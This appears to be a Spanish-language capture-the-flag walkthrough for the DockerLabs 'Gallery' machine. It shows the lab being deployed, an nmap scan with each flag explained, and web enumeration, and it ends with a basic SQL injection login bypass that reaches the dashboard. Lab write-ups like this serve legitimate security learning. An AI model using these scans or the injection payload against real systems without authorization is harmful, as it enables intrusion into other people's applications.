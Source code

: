 ## Descarga y montaje de la máquina
desde https://dockerlabs.es/ buscamos la máquina vulnerable gallery, y bajamos el zip:
```bash
https://mega.nz/file/ONlzkaAC#xPFZFyFo_ZxcSN-DoOdI5yqp7UJb3ugxNnM23UzcRww
```
creamos una carpeta con su nombre:
```bash
mkdir Gallery
cd !$
```
  - mkdir crea la carpeta
  - cd !$ entra en el último argumento anterior que en este caso es "Gallery" es lo mismo que cd Galley

movemos el zip descargado a la carpeta:
```
mv /home/kali/Downloads/Gallery.zip .
```
  - mv mover o renombrar
  - ruta del archivo a mover
  - . punto directorio actual

descomprimimos
```bash
unzip Gallery.zip
```

eliminamos el zip para ser más limpios

```
rm Gallery.zip
```

montamos la máquina:

```bash
sudo bash auto_deploy.sh gallery.tar
```

monta la máquina en un docker y nos dice que su IP es:
```
Máquina desplegada, su dirección IP es --> 172.17.0.2
```

comprobamos trazabilidad:
```
ping -c 1 172.17.0.2                                                                                                                                                                                                   
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.065 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.065/0.065/0.065/0.000 ms

```
  - tenemos trazabilidad  "1 packets transmitted, 1 received, 0% packet loss, time 0ms"
  - con ttl=64 intuimos que es una máquina linux

## Fase de enumeración

usamos nmap para listar puertos abiertos, los servicios que hay corriendo por ellos y sus versiones:
```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 172.17.0.2 -oN puertosYservicios
```
  - sudo hay que ejecutarlo con privilegios el comando
  - nmap herramienta que vamos a utilizar
  - -sS escaneo tipo SYN escaneo más rápido porque no completa el handshake de tres pasos
  - -sCV escaneo de servicios y sus versiones es -sC -sV en un mismo comando
  - -Pn indicamos que no queremos que haga ping
  - --min-rate 5000 tasa minima de paquetes por segundo
  - -p- todo el rango de puertos, escanea los 65535
  - -vvv triple verbose para ver una salida detallada de lo que va encontrando
  - --open solo reporte puertos abiertos
  - -oN puertosYservicios exportamos los resultados en formato nmap al archivo puertosYservicios

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 19:95:1a:f2:f6:7a:a1:f1:ba:16:4b:58:a0:59:f2:02 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKhtMp0GLeYD8q+rHtaud0UjdMeeEVFzKSZoR8qk/rcwqBdb1LTRGhcbCnpJLD9FlVm6HYZO2BqU52epofJd6/o=
|   256 e7:e9:8f:b8:db:94:c2:68:11:4c:25:81:f1:ac:cd:ac (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJCyYfXQ5yljb7YXITXrQFdCNEGjLRz56DnJb/C6gxIf
80/tcp open  http    syn-ack ttl 64 PHP cli server 5.5 or later (PHP 8.3.6)
|_http-title: Galer\xC3\xADa de Arte Digital
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
  - Puerto 22 ssh version 9.6 no vulnerable a listar usuarios
  - puerto 80 http

No teniendo usuarios para intentar fuerzabruta al servicio ssh nos centramos en el http

## enumeración de la página web

lanzamos un whatweb para ver que corre en la página:
```bash
whatweb 172.17.0.2 -v
```
no hay redirecciones y solo nos reporta interesante
```
 HTML5, PHP[8.3.6], X-Powered-By[PHP/8.3.6]
```
sin más, abrimos la página y miramos el código fuente con ctrl+u lo único que vemos es que el botón de login que nos lleva a /login.php

probamos inyeccion sql básica, en el username:
```
' or 1=1-- -
```
logramos inyectarla y nos logueamos llevándonos a :
```
http://172.17.0.2/dashboard.php
```

